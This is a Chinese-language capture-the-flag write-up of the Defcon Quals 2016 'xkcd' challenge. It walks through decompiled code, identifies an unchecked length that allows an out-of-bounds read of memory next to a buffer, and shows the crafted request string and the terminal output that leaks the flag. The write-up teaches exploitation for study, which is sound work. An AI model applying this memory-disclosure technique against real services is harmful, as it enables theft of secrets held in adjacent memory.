


# 4.2 Defcon Quals 2016 xkcd
首先查看下程序



运行程序


使用`IDA` 查看代码

```cpp
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v4; // rax
  int v5; // eax
  int v6; // ecx
  int v7; // er8
  int v8; // er9
  unsigned __int64 v9; // rbx
  char v10; // [rsp+0h] [rbp-40h]
  char v11[4]; // [rsp+10h] [rbp-30h] BYREF
  int v12; // [rsp+14h] [rbp-2Ch] BYREF
  char *s1; // [rsp+18h] [rbp-28h]
  __int64 v14; // [rsp+20h] [rbp-20h]
  __int64 v15; // [rsp+28h] [rbp-18h]

  v10 = (char)argv;
  setvbuf(stdout, 0LL, 2LL, 0LL);
  setvbuf(stdin, 0LL, 2LL, 0LL);
  bzero(&unk_6B7540, 256LL);        // 把bss中的一段空间设置为0
  v15 = fopen64("flag", &unk_487DE4);    // flag文件句柄保存到v15
  if ( v15 )
  {
    fread(&unk_6B7540, 1LL, 256LL, v15);    // 把flag的内容读取到bss中的 0x6B7540 处
    while ( 1 )
    {
      v14 = (int)fgetln(stdin, v11);
      s1 = (char *)(int)strtok(v14, "?");    // 第一次以?为分隔符
      if ( strcmp(s1, "SERVER, ARE YOU STILL THERE") )    // 判断第一次分割后的字符串是否正确
        break;
      s1 = (char *)(int)strtok(0LL, "\"");    // 第二次以"为分隔符
      if ( strcmp(s1, " IF SO, REPLY ") )        // 判断第二次分割后的字符串
      {
        puts("MALFORMED REQUEST");
        exit(0xFFFFFFFFLL);
      }
      s1 = (char *)(int)strtok(0LL, "\"");    // 第三次以"为分割符
      v4 = strlen(s1);
      memcpy(globals, s1, v4);            // 把第三次分割后的字符复制到globals变量中
      s1 = (char *)(int)strtok(0LL, "(");    // 第四次以(为分割符，不做处理
      v5 = strtok(0LL, ")");            // 第五次以)为分隔符
      s1 = (char *)v5;                
      _isoc99_sscanf(v5, (unsigned int)"%d LETTERS", (unsigned int)&v12, v6, v7, v8, v10);    // 把第五次分割后的字符转换成数字保存到v12
      globals[v12] = 0;    // 设置globals[v12]=0
      v9 = v12;
      if ( v9 > strlen(globals) )    // 判断globals的长度是否小于v9
      {
        puts("NICE TRY");
        exit(0xFFFFFFFFLL);
      }
      puts(globals);
    }
    puts("MALFORMED REQUEST");
    exit(0xFFFFFFFFLL);
  }
  puts("Could not open the flag.");
  return -1;
}
```
从上面的代码中，我们可以看到问题出现在`globals[v12]=0` 这里，假如我们`globals`设置的长度为512，但是如果`v12` 我们设置为530，并且在512-530这些字节之间不存在`\x00`截断符，那么最后在`puts(globals)`的时候就会把`512-530` 字节之间的数据一起输出，此时判断`globals`长度的条件自然也会被绕过。

先来看看`globals`的地址`0x06B7340` ,可以得到`flag`与`globals`之间的距离为`0x6B7540 - 0x06b7340 = 512` 

下面先按512字节来构建`exp`

```cpp
SERVER, ARE YOU STILL THERE? IF SO, REPLY "00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000"whatever(512)
```
查看此时的内存信息



可以看到截断`\x00`已经到了`globals+528`的位置了，所以我们可以把512向上递增，当递增到529的时候可以输出完整的`flag`

```cpp
vuln@ubuntu:~/nightmare-master/modules/11-index/dcq16_xkcd$ ./xkcd
SERVER, ARE YOU STILL THERE? IF SO, REPLY "00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000"whatever(529)
00000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000flag{g0ttem_b0yz}
```
